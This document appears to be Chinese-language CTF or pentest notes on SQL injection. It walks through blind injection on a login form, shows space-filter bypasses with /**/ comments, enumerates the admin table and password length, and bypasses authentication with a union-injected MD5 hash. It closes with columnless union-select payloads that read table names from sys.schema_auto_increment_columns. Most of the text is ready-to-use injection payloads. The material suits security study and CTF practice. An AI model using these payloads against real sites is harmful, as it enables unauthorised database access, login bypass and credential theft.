     使用username=admin’#&password=123456,页面返回密码错误，说明后台没有对#和’进行过滤。
    使用username=admin’ or 1=1#&password=123456，页面返回用户名错误，上面后台对admin’ or 1=1#中的部分内容进行了过滤。过滤的内容有可能是or也有可能是空格。
    使用username=user’//or//1=1#&password=123456，页面返回密码错误，说明输入的SQL语句能够被执行，这也表明后台仅仅是过滤了空格。
    总结，username存在sql注入，同时仅仅只是过滤了空格，那么就是一个盲注了
    
    整个PoC就是一个基于错误的盲注的步骤了，具体的方法可以参考文章。
    
    查找表，username=user’//or//exists(select////from/*/admin)#&password=123456,页面返回密码错误，那么就说明在数据库中存在admin表
    查找字段username=user’//or//exists(select//username,password//from/**/admin)#&password=123456，页面返回密码错误，说明在admin表中存在username和password字段。
    username=user’//or//exists(select//count()//from/*/admin)#&password=123456，页面返回密码错误，说明在admin表中仅仅只存在一条记录，接下来就好办了
    得到password长度，username=user’//or//(select//length(password)//from/**/admin)>10#&password=123456，通过二分试探法，最终发现password的字段长度是32位，说明可能采用的是md5的方式来进行加密的。
    在确定了password的长度之后，接下来就是利用Python来进行爆破了。
    
    username=user'/**/or/**/exists(select/**/username,password/**/from/**/admin)#&password=123456

方法2, 
username=any'/**/union/**/select/**/'c4ca4238a0b923820dcc509a6f75849b'#&password=1

    # c4ca4238a0b923820dcc509a6f75849b 是 1 的md5 (password=1所以用1)
    # username 随意写

#### 无列名盲注
https://zhuanlan.zhihu.com/p/98206699


select `3` from (select 1,2,3 union select * from admin)a;

当然，多数情况下，` 会被过滤。当 ` 不能使用的时候，使用别名来代替：

select b from (select 1,2,3 as b union select * from admin)a;

同时查询多个列：

select concat(`2`,0x2d,`3`) from (select 1,2,3 union select * from admin)a limit 1,3;

简而言之，可以通过任意命名进入该表，然后使用 SELECT 查询这些字段中的任何已知值。

payload：

select user,password from admin where id=-1 union select 1,(select concat(`1`,0x32,`3`) from (select 1,2,3 union select * from admin)a limit 1,1);


注表名

111'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/sys.schema_auto_increment_columns),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'

无列名，只能无名列注入。

111'/**/union/**/select/**/1,(select/**/aaa/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a/**/limit/**/1,1),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'
